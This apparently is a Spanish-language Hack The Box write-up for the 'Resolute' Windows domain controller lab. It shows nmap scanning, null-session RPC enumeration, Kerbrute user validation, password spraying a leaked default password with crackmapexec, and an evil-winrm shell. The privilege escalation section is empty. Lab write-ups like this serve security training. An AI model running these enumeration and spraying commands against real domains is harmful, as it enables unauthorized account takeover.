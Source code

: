 ```yaml
---
title: Resolute
date: 2023-08-08 22:05:00 +/-TTTT
categories: [Medium]
tags: [active directory, windows, ]     # TAG names should always be lowercase
img_path: /assets/HTBRESOURCES/RESOLUTE/
image: Resolute.png
---
```


Máquina Windows de categoría media con los siguientes temas:
- Enumeración RPC
- Validación de usuarios con Kerbrute
- Password spraying con Crackmapexec
- Information Leakage
- Shell via Evil-WinRM

## **Enumeración**
### **Escaneo de puertos y servicios con Nmap**
Empleando el comando `nmap -p- --open 10.10.10.169` podemos escanear todo el rango de puertos existentes y que solo nos reporte los puertos abiertos de la máquina.

Agregando las flags `-sC` y `-sV` a los puertos descubiertos, podemos lanzar una serie de scripts básicos de reconocimiento para ver los servicios que corren para esta máquina y sus respectivas versiones.

```bash
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49678,49679,49684,49716 -sC -sV -oN target.txt 10.10.10.169
```

```
Nmap scan report for 10.10.10.169
Host is up (0.16s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-07-12 02:58:02Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49678/tcp open  msrpc        Microsoft Windows RPC
49679/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc        Microsoft Windows RPC
49716/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2023-07-11T19:58:55-07:00
|_clock-skew: mean: 2h26m59s, deviation: 4h02m30s, median: 6m58s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-07-12T02:59:00
|_  start_date: 2023-07-12T02:54:08
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
```

Gracias a que vemos los servicios de DNS, Kerberos, SMB y LDAP expuestos, podemos deducir que nos encontramos ante un DC (Domain Controller).

> Con el comando `crackmapexec smb 10.10.10.169` podemos ver información relevante del DC.
{: .prompt-tip }

![DC_details](Pasted image 20230711225918.png)
- OS: **Windows Server 2016 x64**
- Nombre: **RESOLUTE**
- Dominio: **megabank.local**

> Debido a que nos encontramos ante una máquina de Directorio Activo debemos agregar el dominio **(megabank.local)** al archivo _/etc/hosts_ de nuestra máquina de atacante.
{: .prompt-warning}

Podemos intentar conectarnos al servicio SMB de Windows empleando un "null session" debido a que no tenemos credenciales válidas.

```bash
smbmap -H 10.10.10.169 -u 'null'
```
![smb-null](Pasted image 20230711231248.png)

Pero vemos que nos da un error de autenticación asi que de momento vamos a enumerar otro servicio.

### Enumeración RPC
Como no tenemos credenciales válidas podemos intentar enumerar el servicio RPC empleando un "null session" al igual que con el servicio SMB.
Para esto podemos emplear la herramienta `rpcclient` agregando las flags `-U` y `-N`.
```bash
rpcclient -U '' 10.10.10.169 -N
```
Y vemos que podemos ingresar sin proporcionar credenciales!

Ahora podemos enumerar información relevante del Dominio mediante RPC.

#### Usuarios del Dominio
```bash
enumdomusers
```
![domusers](Pasted image 20230711230853.png)

#### Grupos del Dominio
```bash
enumdomgroups
```
![domgroups](Pasted image 20230711230925.png)

> Otro comando que podemos utilizar para enumerar el Dominio mediante RPC, es `querydispinfo` que nos mostrará las descripciones de todos los usuarios del Dominio.
{: .prompt-tip}

#### Descripciones de Usuarios
```bash
querydispinfo
```
![dispinfo](Pasted image 20230711235403.png)
Y vemos que en la descripción del usuario **marko** dice:
> Cuenta creada. Contraseña configurada como Welcome123!

Se ve que la contraseña por defecto al momento de crear una cuenta nueva es **Welcome123!**

Asi que ya tenemos un listado de usuarios del Dominio y una **contraseña por defecto**, pero pueden haber cuentas de usuario que esten inactivas o deshabilitadas. Como vemos el servicio Kerberos expuesto, podemos validar los usuarios encontrados mediante el uso de Kerberos con la herramienta `kerbrute`.

### Validación de usuario con Kerbrute
Gracias a esta herramienta podemos emplear "brute-forcing" y enumerar cuentas válidas del Directorio Activo mediante la Pre-Autenticación de Kerberos.

Con el argumento `userenum` podemos validar los usuarios que encontramos via RPC. Con las flags `--dc` se indica la IP del **Controlador de Dominio (DC)** y con `-d` se especifica el nombre del Dominio.
```bash
kerbrute userenum --dc 10.10.10.169 -d megabank.local users.txt
```
![kerbrute](Pasted image 20230711231459.png)
Vemos que tenemos 24 usuarios válidos del Dominio! 

Si intentamos acceder como el usuario **marko** y la contraseña por defecto **'Welcome123!'** vemos que la contraseña es incorrecta, por lo que podemos deducir que **marko** cambió su contraseña a tiempo.
> ¿Pero que pasaría si otro usuario no cambió su contraseña por defecto?
{: .prompt-info}

### Password Spraying con Crackmapexec
> Un **"Password Spraying Attack"** consiste en intentar una contraseña por defecto o un listado de contraseñas comúnes en varias cuentas de usuarios.

Empleando la herramienta `crackmapexec` podemos ver si algún usuario sigue teniendo la contraseña por defecto **Welcome123!**.
```bash
crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
```
![passwordspray](Pasted image 20230712001227.png)
Y podemos ver que el usuario **melanie** no ha cambiado su contraseña!, asi que ya tenemos credenciales válidas dentro del Directorio Activo.
- Usuario: **melanie**
- Contraseña: **Welcome123!**

## **Acceso como el usuario melanie**
Empleando la misma herramienta podemos validar si el usuario **melanie** forma parte del grupo **"Remote Management Users"**, porque de ser así, podriamos conectarnos a la máquina victima mediante `evil-winrm`.
```bash
crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
![crackmapexec-winrm](Pasted image 20230712001423.png)
Y vemos que nos reporta un **(Pwn3d!)**, esto quiere decir que el usuario forma parte del grupo de **Administración remota de Windows** y podemos obtener una **consola interactiva**.

### Shell via Evil-WinRM
```bash
evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
![evil-winrm](Pasted image 20230712001747.png)
Ahora tenemos acceso al DC como el usuario **melanie** y podemos visualizar la flag **_user.txt_**

## **Escalada de Privilegios**

pwned!